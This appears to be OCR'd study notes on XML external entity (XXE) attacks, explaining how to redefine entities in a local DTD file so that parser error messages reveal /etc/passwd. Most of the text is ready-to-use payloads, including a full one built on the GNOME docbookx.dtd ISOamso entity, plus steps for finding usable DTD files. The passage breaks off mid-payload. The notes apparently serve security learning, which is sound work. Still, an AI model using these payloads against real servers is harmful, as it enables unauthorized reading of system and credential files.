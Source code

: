 ```xml
that they use is redefining an entity that is declared within an external DTD.
If out-of-band connections are blocked -> invoke a DTD file from the local filesystem and repurpose it to redefine
an existing entity in a way that triggers a parsing error containing sensitive data. 

# Suppose there is a DTD file on the server filesystem at the location /usr/local/app/schema.dtd, and this DTD file
# defines an entity called custom_entity. We could trigger an XML parsing error message containing /etc/passwd file
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
This DTD carries out the following steps:
    - Defines an XML parameter entity local_dtd, w/ contents of the external DTD file exists on the server filesystem.
    - Redefines the XML parameter entity called custom_entity, which is already defined in the external DTD file.
    The entity is redefined as containing the error-based XXE exploit that was already described.
    - Uses the local_dtd entity, so that the external DTD is interpreted, including the redefined value 
    of the custom_entity entity. This results in the desired error message.

####################### Locating an existing DTD file to repurpose
Because the app returns any error messages thrown by the XML parser -> enumerate local DTD files by trying to load them
# Example: Linux using the GNOME desktop env often have a DTD file at /usr/share/yelp/dtd/docbookx.dtd -> try to load:
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
# It will cause an error if the file is missing
Steps:
1. Test a list of common DTD files to locate a file that is present
2. Obtain a copy of the file and review it to find an entity that you can redefine. Since many common systems 
that include DTD files are open source -> obtain a copy through internet search.

# EXAMPLE: Exploiting XXE to retrieve data by repurposing a local DTD
- Test a list of common DTD files to locate a file that is present
- Systems using GNOME desktop env -> DTD at /usr/share/yelp/dtd/docbookx.dtd containing an entity called ISOamso.
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
- Research a copy of the file and review it to find an entity that you can redefine
https://github.com/GNOME/yelp/blob/master/data/dtd/docbookx.dtd -> entity ISOamso for example
- Craft the payload to read /etc/passwd by repurposing the local DTD w/ entity ISOamso and triggering error-based XXE
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
```